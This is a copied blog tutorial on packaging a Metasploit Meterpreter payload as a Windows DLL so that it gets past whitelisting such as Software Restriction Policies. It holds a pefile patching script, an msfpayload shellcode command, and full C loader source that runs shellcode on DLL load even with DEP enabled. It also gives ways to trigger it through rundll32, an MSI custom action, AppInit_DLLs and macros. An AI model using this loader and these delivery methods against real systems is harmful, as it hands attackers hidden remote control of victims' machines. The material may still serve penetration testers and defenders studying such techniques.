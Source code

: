 <!-- TITLE: Payload in a dll -->
<!-- SUBTITLE: A quick summary of Payload in a dll -->

From
http://hype-free.blogspot.com/2009/01/loading-meterpreter-in-dll.html

Some times it may be useful to load the Meterpreter (or any payload in fact) as a DLL. Two scenarios I can think of:

Software Restriction Policies (and many other whitelisting products) don't filter DLLs (even though, they probably can be configured - SRP can be for example), so it might be useful to get in and execute the code from a DLL.
It may be interesting to load it in a MSI.

Anyway, first I tried the easy way: generate an executable and patch it as a DLL with a short pefile script:

import pefile
pe = pefile.PE("runme.exe")
pe.FILE_HEADER.Characteristics += 0x2000
pe.write(filename="loadme.dll")

This works... With a couple quite problematic shortcomings:

The PE file generated by msfpayload is based at 0x400000 and contains no relocation information, making it quite unlikely that it can be loaded in any real application...
And second: the launching of the shellcode is done from what is the "DllMain", resulting in the fact that the thread which loads the DLL will go in never ever land and won't be heard of again (with less nonsense: it will execute the shellcode and won't return from it, which can lead to things like freezing GUI / application if it is loaded from the main thread).

The conclusion is that a custom DLL written in C is needed. Fortunately it is quite easy to write such a thing. For this example I use the LCC-Win32 compiler because it is a nice and slim one, but you can use anything (like GCC, Watcom C - which is also free BTW - or even Visual C++).

First, export the shellcode:

./msfpayload windows/meterpreter/bind_tcp C > foo.txt

You should see something like the following in the output file:

unsigned char buf[] =

"\xfc\xe8\x56\x00\x00\x00\x53\x55\x56\x57\x8b\x6c\x24\x18\x8b"

...

Now it is time to create the project. The full source code is below (I omitted the actual payload code to shorted the post a little:


```text
#include <windows.h>

#include <string.h>



#ifdef __cplusplus

extern "C" DWORD WINAPI __declspec(dllexport) doNothingFunc(HANDLE hInstaller);

#endif



unsigned char buf[] =

"\xfc\xe8\x56\x00\x00\x00\x53\x55\x56\x57\x8b\x6c\x24\x18\x8b"

...;


DWORD WINAPI __declspec(dllexport) doNothingFunc(HANDLE hInstaller) {

 // we have done nothing successfully :-)

 MessageBox(NULL, "Here!", "Here!", MB_OK + MB_SERVICE_NOTIFICATION);

 return ERROR_SUCCESS;

}



DWORD WINAPI startShellcode(LPVOID lpParameter) {

 DWORD oldProtect;

 DWORD (*shellcode)(void);



 HANDLE hHeap = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE, sizeof(buf), 2*sizeof(buf));

 if (NULL == hHeap) return GetLastError();

 void *shellCodeCopy = HeapAlloc(hHeap, 0, sizeof(buf));

 if (NULL == shellCodeCopy) return GetLastError();



 memcpy(shellCodeCopy, buf, sizeof(buf));

 VirtualProtect(shellCodeCopy, sizeof(buf), PAGE_EXECUTE_READWRITE, &oldProtect);

 shellcode = shellCodeCopy;

 return shellcode();

}



BOOL WINAPI __declspec(dllexport) LibMain(HINSTANCE hDLLInst, DWORD fdwReason, LPVOID lpvReserved) {

 if (DLL_PROCESS_ATTACH == fdwReason) {

  CreateThread(NULL, 0, startShellcode, NULL, 0, NULL);

  Sleep(500);

 }

    return TRUE;

}


```

A few remarks about the source code:

    The modus operandi is the following: as soon as the DLL is loaded a new thread is spawned. This thread copies the shellcode to a newly allocated memory block and jumps to it. This means that you don't need to actually call functions from the DLL to start it. Also, this means that the thread loading the DLL is not blocked.
    The zone where the shellcode is copied is marked properly with the execution attribute, this means that it will work even with NX/DEP enabled (because we're telling the OS that we do want to execute code from the given memory pages)
    Casting the pointer to the shellcode to a function pointer and calling it trough that was necessary because LCC doesn't seem to support inline assembly statements. As a sideeffect this code is also more portable (because it doesn't have to account for the Intel vs. AT&T assembly syntax differences)
    If you are compiling this LCC, you need to explicitly disable the "name mangling" for the exports to have the correct name (otherwise it will be named like "_doNothingFunc@4"). You can do this, go to Project -> Configuration -> Linker and check the "Do not include underscores in the dll exports" option.

Now, how can you load this dll?

    Via rundll32 (for testing): rundll32 mdll.dll,doNothingFunc 123
    Including it in an install kit. You need to add lines similar to the following to the WiX script previously discussed:

    <Binary Id="SampleDllCa" SourceFile="/pefile/mdll/lcc/msdll.dll" />

    <CustomAction Id="Meterpreter" BinaryKey="SampleDllCa" DllEntry="doNothingFunc" />



    <InstallExecuteSequence>

      <Custom Action="Meterpreter" Sequence='1'/>

    </InstallExecuteSequence>

    Using the AppInit_DLLS registry key. Contrary with what the linked documentation says, this works up to Windows 2k3. In Vista they changed it to LoadAppInit_DLLs with stricter ACLs (thanks to Raymond Chen for the link). One sideeffect is that the DLL is loaded every application, so be prepared to get a bunch of connections if you are using the connect-back payload.
    Importing the DLL from a macro. You can also check out Didier Steven's post about this topic.

One thing to keep in mind is that the process which hosts the DLL might end quickly, so something like this script to automatically migrate to a new process should be taken into consideration.

Have fun and stay safe!

Update: the same MSI is executed both on installing and uninstalling the product, so the DLL does have a second chance to run.
